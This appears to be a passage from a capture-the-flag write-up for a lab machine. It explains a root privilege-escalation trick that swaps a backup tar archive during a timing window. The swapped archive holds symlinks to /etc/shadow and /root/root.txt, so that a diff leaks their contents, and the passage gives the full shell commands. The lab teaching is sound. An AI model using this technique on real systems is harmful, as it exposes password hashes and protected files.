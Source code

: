 This only returns 2 files:

```
/var/www/html/webservices/monstra-3.0.4/sitemap.xml
/var/www/html/webservices/monstra-3.0.4/storage/pages/1.page.txt
```

Trying to make a symlink to `/etc/shadow` does not work since the files are owned by `root` and cannot be deleted:

```bash
ln -sfn /etc/shadow /var/www/html/webservices/monstra-3.0.4/storage/pages/1.page.txt
```

Instead of modifying the archive before it is made, try to modify it during the 30 second window when the script is waiting for the `tar` to finish. Then replace the archive with one that contains symlinks to protected system files like `/etc/shadow` and have `root` extract them and report the `diif` in `/var/backups/onuma_backup_error.txt`:

- **NOTE:** The archive must contain filenames that exist in the other archives in order for them to be compared with `diff` and show the file contents

```bash
# create stager with system files to view
cd /var/tmp/
mkdir -p bubba/var/www/html/
ln -sfn /etc/shadow bubba/var/www/html/index.html
ln -sfn /root/root.txt bubba/var/www/html/robots.txt
cd bubba
tar -zcvf bubba.tar .
cd ../
mv ./bubba/bubba.tar .
# loop until output is seen
BEFORE=$(ls -la /var/tmp)
while true; do
  AFTER=$(ls -la /var/tmp)
  CHECK=$(diff <(echo "$BEFORE" ) <(echo "$AFTER"))
  if [[ $CHECK ]]; then
    echo "$CHECK"
    break
  fi
  sleep 1
done
```

Eventually this loop will break once the task is started and output the following:

![user8](./tartarsauce/user8.png)
